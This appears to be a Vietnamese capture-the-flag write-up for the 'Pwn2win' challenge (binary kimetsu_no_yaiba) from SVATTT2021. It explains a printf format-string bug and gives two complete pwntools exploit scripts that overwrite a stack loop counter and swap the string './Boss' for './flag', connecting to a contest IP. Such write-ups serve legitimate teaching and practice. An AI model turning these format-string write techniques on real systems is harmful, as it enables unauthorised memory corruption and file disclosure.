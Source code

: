 # Pwn2win
* cre: Nyancat


# Reverse File

Xem một số thông tin cơ bản của file: kiến trúc 64-bit, dynamically linked và stripped
```sh
kimetsu_no_yaiba: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92e404195e539fc8cbce6c8b55af37adc01cec4d, stripped
```
Kiểm tra 1 số cơ chế bảo mật.
```sh
[*] '/mnt/c/Users/n18dc/OneDrive/Desktop/SVATTT2021/Vòng sơ khảo/Pwn2win/kimetsu_no_yaiba'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Chương trình sẽ cho 3 lần thi đấu với boss khác nhau về: máu, tấn công và phòng thủ.
Trước khi đấu với 1 boss bất kỳ, người chơi sẽ cung cấp 1 chuỗi với độ dài 16 byte.
Khi đấu với boss sẽ có 2 phương pháp tấn công:
* Normal attack - sử dụng attack cơ bản của người chơi
* Skill - sử dụng kỹ năng, luôn thắng boss.

Khi tấn công thất bại, người chơi sẽ bị mất 1 lượng máu. Ngược lại, nếu tấn công thành công thif Boss cũng sẽ bị mất máu.

Khi đánh bại 1 boss, sẽ tới phần bị lỗi format string
```sh
printf("WINNER: ");
printf(s);
puts("\nCongratulation");
```

Khi hết 3 lượt đánh boss, người chơi chiến thắng sẽ được in ra text của file hint.txt

```sh
puts("Wow, Amazing");
puts("I will send you some prizes\nSee you soon");
stream = fopen("./hint.txt", "r");
fread(ptr, 0x1EuLL, 1uLL, stream);
puts(ptr);
exit(0);
```


# Exploit

Chương trình sử dụng biến i để so sánh, cho đấu với 3 boss, mà i nằm trên stack, nên sẽ đè biến i thành số âm, người chơi sẽ thực hiện được nhiều lần thi đấu để tấn công format string.

Sau đó thực thi ghi đè chuỗi "./flag" thay thế cho chuỗi "./Boss", thì lúc đọc thông tin boss, chương trình sẽ đọc luôn cho mình flag.

file exploit
```sh
#!/usr/bin/env python3
#cre: nyancat0131
from pwn import *

context.clear(arch='amd64', os='linux', endian='little')

r = remote('125.235.240.166', 33333)

# 1st boss
r.sendline(b'%p')

for i in range(6):
    r.sendlineafter(b'> ', b'2')
    r.sendline(str(0x11111111).encode('ascii'))

r.recvuntil(b'WINNER: ')
stack = int(r.recvline(), 16) + 0x2720
log.info('stack = 0x%x' % stack)

def fight(fmt):
    r.sendlineafter(b'(y/n) ', b'y')
    r.sendline(fmt.encode('ascii'))

    for i in range(8):
        r.sendlineafter(b'> ', b'2')
        r.sendline(str(0x11111111).encode('ascii'))

# 2nd boss
fight('%{:d}c%25$hn'.format((stack - 0x70 + 3) & 0xffff))

# 3rd boss
fight('%128c%53$hhn')

# loop variable has been set to a negative number
# now we have unlimited tries

def write(addr, value):
    log.info('Writing 0x%x to 0x%x', value, addr)
    for j in range(0, 8, 2):
        fight('%{:d}c%25$hn'.format((stack - 0x30 + j) & 0xffff))
        if (addr & 0xffff) == 0:
            fight('%53$hn')
        else:
            fight('%{:d}c%53$hn'.format(addr & 0xffff))
        addr = addr >> 16
    
    value = value & 0xffff
    if value == 0:
        fight('%16$hn')
    else:
        fight('%{:d}c%16$hn'.format(value))

write(0x602098 + 7, u16(b'./'))
write(0x602098 + 9, u16(b'fl'))
write(0x602098 + 11, u16(b'ag'))
write(stack - 0x74, 0)

r.sendlineafter(b'(y/n) ', b'y')
r.recvuntil(b'Name: ')
log.success(r.recvline().decode('ascii').strip())
```

## Cách thứ 2: Ghi dè "./Boss" --> "./flag" bằng việc tính địa chỉ ghi đè, tương ứng với máu của người chơi.
file exploit
```sh
# -*- coding: utf-8 -*-
from pwn import *
import sys
class info:
    def __init__(self, name,health,dame,defend):
        self.name = name
        self.health = health
        self.dame = dame
        self.defend = defend
    
    def set_user(self):
        self.name = ''
        self.health = 0x7ffffffe
        self.dame = 0x2000
        self.defend = 0x1000

host = '127.0.0.1'
port = 1234
flag = "lfga".encode('hex')
addr_boss = 0x60209a

def fight(r, payload, user, boss, mode,addr_boss):
    print(r.recvuntil("Let's give your name before the fight: "))
    r.send(payload)
    remain = skill = 0
    if mode == 'lose':
        while True:
            if (skill < 3):
                skill += 1
                dame_boss = boss.dame
            else:
                skill = 0
                dame_boss = boss.dame*2
            print(r.recvuntil("> "))
            r.sendline('1')
            user.health = user.health - dame_boss + user.defend
            print('[*] health : {}'.format(user.health))
            if user.health < 0:
                break
    else:
        while True:
            dame = user.dame
            defend = user.defend
            print(r.recvuntil("> "))
            if (skill < 3):
                skill += 1
                dame_boss = boss.dame
            else:
                skill = 0
                dame_boss = boss.dame*2
            remain = user.health - dame_boss + defend
            if remain < addr_boss:
                dame = (addr_boss - remain)*2
                print('[*] Dame : {:x}'.format(dame))
                if dame <= boss.defend:
                    dame += boss.defend

                defend += dame/2
                user.health = user.health - dame_boss + defend
                r.sendline('2')
                r.sendline(str(dame))
                print('[*] health : {:x}'.format(user.health))
                if user.health == addr_boss:
                    n = 1
                    health = 0
                    while True:
                        health = boss.health - 0x11111111*n
                        if health < 0:
                            break
                        else:
                            n += 1
                    for _ in range(n):
                        print(r.recvuntil("> "))
                        r.sendline('2')
                        r.sendline(str(0x11111111))
                    break
                else:
                    continue
            else:
                r.sendline('1')
                user.health = user.health - dame_boss + defend
                print('[*] health : {:x}'.format(user.health))
            
def exploit(debug):
    if debug == '1':
        r = process('./kimetsu_no_yaiba1')
        gdb.attach(r,'''
        b*0x400ff9
        ''')
    else:
        # r = process('./kimetsu_no_yaiba')
        # r = remote(host,port)
        r = remote('125.235.240.166',33333)

    akaza = info("Akaza",1610612736,400000,200000)
    muzan = info("Kibutsuji_Muzan",2147483647,1000000,500000)
    user = info("tod",0x7ffffffe,0x2000,0x1000)

    print("==============LEVEL 1==============")
    payload = "%{}x%12$hn".format(str(int(flag[:4],16)))
    payload = payload.ljust(16,'a')
    fight(r,payload,user,akaza,'win',addr_boss)
    print(r.recvuntil("(y/n) "))
    r.sendline('y')
    print("==============LEVEL 2==============")
    payload = "%{}x%12$hn".format(str(int(flag[4:8],16)))
    payload = payload.ljust(16,'a')
    user.set_user()
    fight(r,payload,user,muzan,'win',addr_boss+2)
    print(r.recvuntil("(y/n) "))
    r.sendline('y')
    print("==============LEVEL 3==============")
    user.set_user()
    fight(r,'zir',user,muzan,'lose',addr_boss)
    print(r.recvuntil("(y/n) "))
    r.sendline('y')
    print(r.recvuntil("==========================="))
    r.close()
exploit(sys.argv[1])
```